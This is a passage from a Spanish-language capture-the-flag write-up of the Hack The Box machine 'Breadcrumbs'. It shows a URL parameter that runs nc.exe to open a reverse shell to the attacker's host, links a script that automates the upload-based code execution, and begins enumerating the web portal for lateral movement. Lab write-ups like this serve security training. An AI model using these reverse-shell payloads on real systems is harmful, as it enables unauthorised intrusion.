 Perfecto, ahora nos ponemos es escucha con `nc` y ejecutamos:

```html
?xmd=C:\Users\www-data\Desktop\\xampp\tmp\nc.exe 10.10.14.194 4433 -e cmd.exe
```

Yyyy:

![316bash_revSH_wwwdata](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_revSH_wwwdata.png)

Tamos dentroooooooooooooooeoeoeowowoewoeowirjaksdfj (: Ahora a enumerar...

> [Script que nos permite ejecutar comandos automatizando todo lo anterior](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/RCE_uploadPHPfile.py).

...

## Movimiento lateral www-data -> juliette [#](#movimiento-lateral-juliette) {#movimiento-lateral-juliette}

Dándole un vistazo a los archivos que hay en la ruta `/portal` encontramos una carpeta llamativa sobre pizza :P

```powershell
PS C:\Users\www-data\Desktop\\xampp\htdocs\portal> dir
...
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          2/8/2021   5:37 AM                assets
d-----          2/8/2021   5:37 AM                db
d-----          2/8/2021   5:37 AM                includes
d-----          2/8/2021   5:37 AM                php
d-----          2/8/2021   5:37 AM                pizzaDeliveryUserData
d-----         3/12/2021   4:46 PM                uploads
d-----          2/8/2021   5:37 AM                vendor
-a----          2/1/2021  10:40 PM           3956 authController.php
-a----          2/1/2021   9:40 PM            114 composer.json
-a----        11/28/2020  12:55 AM           6140 composer.lock
-a----         12/9/2020   3:30 PM            534 cookie.php
-a----          2/1/2021   6:59 AM           3757 index.php
-a----          2/1/2021   1:57 AM           2707 login.php
-a----         1/16/2021   1:47 PM            694 logout.php
-a----          2/1/2021   1:58 AM           2934 signup.php
```

